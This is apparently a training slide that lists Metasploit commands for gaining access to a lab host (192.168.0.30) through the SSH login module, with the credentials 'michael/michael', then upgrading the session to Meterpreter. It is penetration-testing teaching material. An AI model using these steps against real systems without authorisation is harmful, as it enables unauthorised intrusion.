

# Obtaining Access via SSH Exploit
Search SSH_Login exploits
Set RHOSTS 192.168.0.30
SET USERNAME michael
SET PASSWORD michael
EXPLOIT
Sessions
Sessions -u 4
Sessions -i 8
Use Meterpreter